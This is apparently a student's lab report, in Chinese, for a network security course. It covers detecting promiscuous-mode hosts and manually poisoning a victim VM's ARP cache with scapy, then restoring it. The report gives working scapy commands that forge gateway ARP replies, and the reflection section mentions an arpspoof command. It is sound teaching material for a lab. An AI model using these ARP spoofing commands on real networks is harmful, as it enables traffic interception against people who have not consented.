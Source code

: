 # 第四章实验：网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:0b:04:81 / eth0
  - 172.16.111.144
- 受害者主机：Kali
  - 08:00:27:52:c6:b2/ eth0
  - 172.16.111.108
- 网关：Debian
  - 08:00:27:10:ea:af/ enp0s9
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy、安装 python3
  
  `sudo apt update && sudo apt install python3 python3-pip`

   `pip3 install scapy[complete]`

   ![scapy安装成功展示](images/scapy_install_sucess.png)

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用 ( 这里应该没有出现 PROMISC 字符串)

  `ip link show eth0`

  ![实验前检查混杂模式状态](images/check_promisc.png)

- 在攻击者主机上开启 scapy

  `sudo scapy`


- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.108")`

 

-  回到受害者主机上手动开启该网卡的「混杂模式」

   `sudo ip link set eth0 promisc on`

- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC 
  
  `ip link show eth0`
 
   ![再次检查混杂模式状态](images/recheck_promisc.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.108")`

 - 两次pkt结果对比
   ![两次pkt结果对比](images/pkt_result_compare.png)

- 在受害者主机上手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存
受害者主机初始ARP缓存信息
 ![受害者初始ARP](images/init_arp.png)
以下代码在攻击者主机上的 `scapy` 交互式终端完成


- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  
  `arpbroadcast.show()`

- 发送这个 ARP 广播请求
 
  `recved = srp(arpbroadcast, timeout=2)`

  ![在攻击者主机上构造ARP结果展示](images/attacker_arp.png)



- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.108，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

  `arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108",hwdst="08:00:27:0b:04:81")`

- 发送上述伪造的 ARP 响应数据包到受害者主机

  `sendp(arpspoofed)`

   ![发送伪造的 ARP 响应数据包到受害者主机](images/fake_arp.png)
  

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

`ip neigh`

   ![接受伪造ARP的受害者主机ARP缓存表](images/changed_arp.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
 
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:10:ea:af", pdst="172.16.111.108", hwdst=" 08:00:27:52:c6:b2")`
 
    `sendp(restorepkt1, count=100, inter=0.2)`

  ![伪造网关ARP](images/fake_gateway_arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
 
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  
  `ip neigh`

   ![查看恢复的受害者主机ARP缓存表](images/recover_arp.png)

## 思考与反思
- 实验相对简单，做完实验想尝试直接在攻击者主机命令行里利arpspoof -i eth0 -t 172.16.111.108 172.16.111.1实现一下ARP攻击不能上网，但在kali中一直报错：找不到arpspoof。但该虚拟机已装有arpspoof,应该猜测是更新问题，需要执行sudo apt-install update && sudo apt-install upgrade.但依旧没解决问题==
 
   ![arpspoof_install_wrong](images/extra_wrong.png)
## 参考
- [黄药师课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)